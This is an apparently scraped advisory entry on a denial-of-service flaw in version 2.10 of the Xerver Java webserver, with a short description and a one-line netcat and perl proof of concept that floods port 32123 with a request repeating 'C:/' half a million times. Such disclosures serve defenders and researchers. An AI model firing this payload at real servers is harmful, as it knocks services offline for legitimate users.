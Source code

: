 INFO
----

    source: http://www.securityfocus.com/bid/4254/info

    Xerver is a freely available webserver, written in Java. It will run on any operating system with Java installed, including Microsoft Windows, Unix/Linux variants, MacOS, etc.

    It has been reported that sending an excessive number of requests for 'C:\' to port 32123 will cause the webserver to crash, denying service to legitimate users. This appears to be the case even on non-Windows based operating systems running the vulnerable software.

    The webserver will need to be restarted to regain normal functionality.

    This issue was reported for v2.10 of Xerver. Earlier versions may also be affected.


    printf "GET /`perl -e 'print "C:/"x500000'`\r\n\r\n" |nc -vvn 127.0.0.1 32123